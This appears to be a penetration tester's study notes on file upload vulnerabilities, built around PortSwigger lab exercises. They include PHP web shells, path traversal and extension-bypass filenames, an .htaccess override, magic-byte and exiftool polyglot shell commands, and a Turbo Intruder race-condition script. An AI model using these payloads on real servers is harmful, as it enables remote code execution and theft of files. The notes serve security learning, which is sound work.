

#file-upload #filesystem #php #directory-traversal 

# Go-to Links:
- [File Upload Vulns & Methodology Steps](https://hackviser.com/tactics/pentesting/web/file-upload) - Hackviser
- [File Upload Vulns & Methodology Steps](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html) - Hacktricks
- [File Upload Vulns & Wordlists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md#methodology) - PayloadsAllTheThings
---
# Theory & Labs:

File upload vulns arise when a web server allows users to upload files to its filesystem **without sufficiently validating things like their name, type, contents, or size.**

Attacks can be triggered by **file upload alone**, or a **follow-up `HTTP` request for the file**, typically to **trigger its execution by the server.**

### How do they arise?
- Utilising blacklists instead of whitelists
- Checking for file extensions
	- This is as opposed to **[media type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/MIME_types)**, formerly known as a **Multipurpose Internet Mail Extensions or `MIME` type** - most often in the format:
``` json
type/subtype;parameter=value
// e.g
text/html;charset=US-ASCII
```
However, [MIME type checking is not inherently secure](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/MIME_types) - as browsers may "guess" or `sniff` the MIME type by reading the file contents, performing file extension or magic number (e.g. GIF files start with the `47 49 46 38 39`) checking.
- **MIME sniffing is protected by:** `X-Content-Type-Options: nosniff`

---
## When exploiting File Uploads - consider:

1. **What restrictions are applied to the file once uploaded server-side**.
2. **Where** the file is uploaded, and **how to access it** 
	*(e.g. with a profile picture, can find the source on the page & navigate to it)*
3. **What aspect of the file the website fails to validate** (size, type, contents, etc.)
4. What **permissions the file runs with**
5. Whether/under what conditions the **server will execute the file**

### Potential Impacts/Attacks
- **Uploading server-side code file** (e.g. that functions as a web shell)
- **Overwriting critical files/data** (filename not validated)
- **Upload files to unanticipated locations** (if vulnerable to web directory traversal)
- **DoS via filling available disk space** (file size not validated)

---
## How web servers handle requests for files
#web-server 
**`Old`:** request path for file **mapped 1:1 with web server filesystem hierarchy.**
**`Now`:** increasingly dynamic, i.e. path of a request often has **no direct filesystem relationship**

#### Handling static files:
1. Server parses **file path & file extension** --> determines filetype being executed.
   *Typically via comparing a list of mappings between extensions & `MIME` types*
	1. **If the file type is non-executable:** server may send contents to the client via `HTTP`
	2. **If file IS executable `AND` server `CAN` execute that file type:** will assign variables based on parameters in `HTTP` request & output MAY be sent to client in response
	3. **If file IS executable but server `WILL NOT` execute that file type:** will `ERROR` (may [disclose info](https://portswigger.net/web-security/information-disclosure/exploiting#source-code-disclosure-via-backup-files))

---

# EXAMPLES:
#web-shell
## Uploading web shells
If you can bypass any checking, can upload a file containing content like:
``` php
// reads arbitrary files from the filesystem
<?php echo file_get_contents('/path/to/target/file'); ?>

// issues commands directly to system
<?php echo system($_GET['command']); ?>
```
These shells can be interfaced with via query parameters within HTTP requests, such as:
``` HTTP
GET /example/exploit.php?command=id HTTP/1.1
```

- Use commands like `ls` and `cat` to traverse the system, but will also show up in logs, so may prefer the native `file_get_contents` function!
- Will execute on the system **based on the file extension** - so can change `Content-Type` to trick server:
  

---
## Bypassing file checks (simple)
#file-check-bypass
When submitting simple `HTML` forms (sending  text like name/address), the browser typically **sends the provided data in a `POST` request with the content type `application/x-www-form-urlencoded`.** 
However, for large amounts of binary data (`PDF`s etc.), the content type `multipart/form-data` is preferred.

- **`Content-Disposition` header:** provides basic information about the input field it relates to. 
- **`Content-Type` header:** tells the server the `MIME` type of the data. **If this header is implicitly trusted by the web server, can be modified to bypass `MIME` type check.**

E.g. 

``` HTTP
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=------012345678901234567890123456

    ------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ------012345678901234567890123456--
```

---
## Bypassing with Path Traversal
#path-traversal
Servers may attempt to **prevent files being uploaded from particular locations**, or **only sun scripts with specifically-allowed `MIME` types** & just serve the files as plaintext.

Webservers **often use the `filename` field in `multipart/form-data` requests** to determine the **name and location to save the file**.
- May need to **encode key characters** `/` --> `%2F`.
	- e.g. `filename="..%2fshell2.php"`

**Can use directory traversal like:**
``` HTTP
------geckoformboundaryb59f4aa7527828551f996afa7473d3c
Content-Disposition: form-data; name="avatar"; filename="..%2fshell2.php"
Content-Type: application/octet-stream

<?php echo system($_GET['command']); ?>
```

**`Note`:** **requests to a given domain name** may be processed by **different servers** on the backend, with differing behaviours!

---
## Bypassing filetype blacklisting
#bypass-blacklisting
**See [Hacktricks](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html) or [PayloadsAllTheThings](github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload Insecure Files/README.md#methodology) for a comprehensive checklist & techniques!**

- Attempt lesser-known, **alternate file naming schemes** 
	- `.php` --> `.php5`
	- `html` --> `.shtml`
	- *See [Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html) or [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md#methodology) for a sample list*
- Try mixing in **uppercase letters**  
    - `.pHp`, `.pHP5`, `.PhAr`, `.hTmL`, etc.
- Try **doubling/tripling extensions**  
    - `exploit.png.php` or `exploit.php.png`
    - if this **works**, need to find a way to strip the trailing fake extension so the server can run the file as the intended type. **Try a null byte like `filename="exploit.php%00.jpg"`**
- Try adding **special characters at the end** (use Burp to brute-force all ascii & unicode characters)
	- `file.php%20`
- Try **encoding** elements of the filename
    - `exploit.php%0d%0a.jpg`
- **Insert a url-encoded null byte** (`%00` or `0x00` in hex) - #null-byte-injection
    - `exploit.php%00.jpg`
- **Add semicolons** before the file extension  
    - `exploit.asp;.jpg`
- **Break filename limits** - cutting off valid (malicious) extensions
- **Insert malicious extensions to be stripped**, which then create a **valid extension** - i.e. strips `.php` out of `.p.phphp --> .p[.php]hp = .php`

### Lab - [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)
- Used a wordlist to check what file extensions would be accepted, put into intruder to test - [File Extension Bypass List](File%20Extension%20Bypass%20List.md)
- Found that `exploit.php.jpg` works, but has an error when trying to access (as server attempts to open as `jpg`) file
- Try using `exploit.php%00.jpg` so null byte strips the `.jpg` end post-validating, and server can run it as `.php` 
  

---
## Overriding File Execution Permissions - web server config files
#config-file-override 
However, **web servers will often not execute files unless they are  pre-configured to do so** (using something like editing `/etc/apache2/apache2.conf`) --> but we can attempt to **upload configuration files to modify & allow this.**

- #Apache servers will load a directory-specific configuration from a file called `.htaccess` if one is present.
- #IIS servers may use a `web.config` file

### [Lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass):
- Uploaded `.php` remote shell, got error.
- Noted website was built on an #Apache web server (wappalyzer)
- Researched `.htaccess` file --> *Directives placed in `.htaccess` files apply to the directory where you place the file, and all sub-directories. The `.htaccess` files follow the same syntax as the main configuration files* ([src](https://httpd.apache.org/docs/2.4/configuring.html))
- Can make all filetypes of `.evil` run as `.php` with a file containing:
  `AddType application/x-httpd-php .evil`.
  
	- *Got `403 Forbidden` when trying to access it after uploading  - indicates server treating it as privileged, which is good!*
- Then uploaded `safe.evil` php shell, & accessed it via `GET` & `safe.evil?command=id`

---

## Flawed file content validation
#file-content-validation

When servers try and validate the content instead of trusting `Content-Type`, based on:
- Magic Bytes - e.g. JPEGs always begin with `FF D8 FF`
- File properties ()

Can try added **magic bytes** to beginning of a file:
#magic-bytes
``` bash
# Step 1: Create file with valid magic bytes
# PNG magic bytes: 89 50 4E 47 0D 0A 1A 0A
echo -e "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system(\$_GET['cmd']); ?>" > shell.php

# Step 2: JPEG magic bytes: FF D8 FF
echo -e "\xFF\xD8\xFF<?php system(\$_GET['cmd']); ?>" > shell.php

# Step 3: GIF magic bytes: 47 49 46 38 39 61
echo "GIF89a<?php system(\$_GET['cmd']); ?>" > shell.php

# Step 4: Upload and verify
# File should pass magic byte validation
# Check if code still executes
```


But sometimes, **creating polyglot web shells is necessary.** 

### Creating Polyglot Webshell (ExifTool)

1. Use [`exiftool`](https://exiftool.org/) on a kali VM, or download it.
2. Upload a base image/file to your site, and find one that the webserver accepts.
3. **Use `exiftool` to embed the payload within the metadata of that accepted file** - e.g. in the comments section. 
	- Use **markers** to find the command output within the rest of the image data, **like adding `START` and `END` to the embedded command.**
   // *NOTE - sometimes the interactive command shell won't work here, and may need to use something like `file_get_contents('/path')`*

**Creating polyglot with `Exiftool**:
``` bash
// Interactive command shell
exiftool -Comment="<?php echo 'START ' . system($_GET["cmd"]) . ' END'; ?>" src-image.jpg -o polyglot.php

// Read file contents
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" src-image.jpg -o polyglot.php
```


---
## File Upload Race Conditions
#file-upload-race-conditions

Modern file systems often implement protections like:
- Uploading to **temporary, sandboxed directories** before performing validation on the file & moving it to permanent storage
- **Randomizing file name** & location
- Accessing via `id` instead of file path

However, if a server implements its own custom system (e.g. *upload to filesystem --> validate --> remove if doesn't pass validation*) can introduce **bugs/race conditions during that validation checking step** (often by antimalware etc.)

*HOWEVER these are very hard to find without access to server-side logic/source  code.*

### Lab - Race Condition File Upload Bypass

Can do via Repeater, or [TurboIntruder](https://www.bugcrowd.com/resources/levelup/turbo-intruder-abusing-http-misfeatures-to-accelerate-attacks-by-james-kettle/) (see below):
- **Upload legit file** `safe.png` via a `POST`, **note where it's saved & file extension name.**
	- e.g. saves to `/files/avatar/safe.png`
- Try to upload **malicious** file `shell.php` via a `POST`, then whilst its being validated, quickly spam-send `GET` requests to this malicious file at the above predicted file path.
	- e.g. several `GET /files/avatar/shell.php?command=ls`
Hopefully, this way, we can **execute file in the small time window before it's removed.**

#### TurboIntruder
#TurboIntruder
1. Upload a valid image file, note that image was fetched using a GET request to `/files/avatars/<IMAGE>`.
2. If server blocks all previous techniques, **use/add the Turbo Intruder burp extension.** 
   Using the following script, which uploads the file via a `POST` then tries to access it with 5 `GET` requests:
``` python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
*In the script, replace `<YOUR-POST/GET-REQUEST>` with the ENTIRE request to `POST /my-account/avatar` containing your `exploit.php` file.*

Don't forget to **append the command in the URL** if needed, e.g. `GET /files/avatars/shell.php?command=cat+/home/carlos/secret`

**`POST` & `GET` reqs inside Turbo Intruder**

**Check whether any successfully arrived (`200 OKAY`)**


## Race conditions in URL-based file uploads


